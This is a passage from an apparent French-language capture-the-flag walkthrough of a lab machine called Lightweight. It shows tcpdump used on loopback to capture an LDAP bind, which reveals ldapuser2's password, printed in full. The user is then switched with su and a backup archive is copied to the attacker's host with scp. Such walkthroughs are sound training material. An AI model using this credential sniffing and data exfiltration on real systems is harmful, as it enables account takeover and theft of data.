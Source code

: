 Nous avons plusieurs programmes, on va se concentrer sur le programme tcpdump.

    [10.10.12.232@lightweight ~]$ ls -l /usr/sbin/tcpdump
    -rwxr-xr-x. 1 root root 942304 11 avril  2018 /usr/sbin/tcpdump
    [10.10.12.232@lightweight ~]$ 
    
TCPDUMP
----
Nous allons essayer de capturer les données du protocole LDAP avec la commande tcpdump et d'exécuter toutes les pages sur le serveur HTTP.

    [10.10.12.232@lightweight ~]$ tcpdump -i lo -nnXSs 0 'port 389'
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
    
Après avoir taper la commande vous devez obligatoirement allez sur le serveur HTTP est d'exécuter toutes les pages le plus important **status.php**.

	0x0000:  4500 008f 3c3f 4000 4006 d528 0a0a 0a77  E...<?@.@..(...w
	0x0010:  0a0a 0a77 ad98 0185 83a1 cdb7 c84a 7ff5  ...w.........J..
	0x0020:  8018 02ab 2983 0000 0101 080a 003f f18c  ....)........?..
	0x0030:  003f f18b 3059 0201 0160 5402 0103 042d  .?..0Y...`T....-
	0x0040:  7569 643d 6c64 6170 7573 6572 322c 6f75  uid=ldapuser2,ou
	0x0050:  3d50 656f 706c 652c 6463 3d6c 6967 6874  =People,dc=light
	0x0060:  7765 6967 6874 2c64 633d 6874 6280 2038  weight,dc=htb..8
	0x0070:  6263 3832 3531 3333 3261 6265 3164 3766  bc8251332abe1d7f
	0x0080:  3130 3564 3365 3533 6164 3339 6163 32    105d3e53ad39ac2
    
Parfait nous avons trouver le mot de passe grâce à TCPDUMP nous avons pour de bon trouver le mot de passe nous devons nous connecter avec la commande **su**.

    [10.10.12.232@lightweight ~]$ su - ldapuser2
    Mot de passe : 
    Dernière connexion : dimanche 30 décembre 2018 à 08:38:47 GMT sur pts/1
    [ldapuser2@lightweight ~]$ 
    
> Username : ldapuser2 <br />
> Password : 8bc8251332abe1d7f105d3e53ad39ac2

Parfait nous sommes connecté.

    [ldapuser2@lightweight ~]$ ls
    backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt
    [ldapuser2@lightweight ~]$ wc -c user.txt 
    33 user.txt
    [ldapuser2@lightweight ~]$

Comme vous pouvez le voir il y'a un fichier backup nous allons essayer de le transférer vers notre machine physique avec la commande **scp**.

    [ldapuser2@lightweight ~]$ scp -r -p $HOME/backup.7z seyptoo@10.10.12.232:/home/seyptoo/Bureau
    The authenticity of host '10.10.12.232 (10.10.12.232)' can't be established.
    ECDSA key fingerprint is SHA256:4ycMzm1pTioJxy5Bc7ALoE3W6QCRow3C0LSnbSmsMzo.
    ECDSA key fingerprint is MD5:3e:3c:10:13:79:db:36:76:a5:85:b5:8e:3b:ce:08:98.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '10.10.12.232' (ECDSA) to the list of known hosts.
    seyptoo@10.10.12.232's password: 
    backup.7z                                                                                                                       100% 3411    56.4KB/s   00:00    
    [ldapuser2@lightweight ~]$
    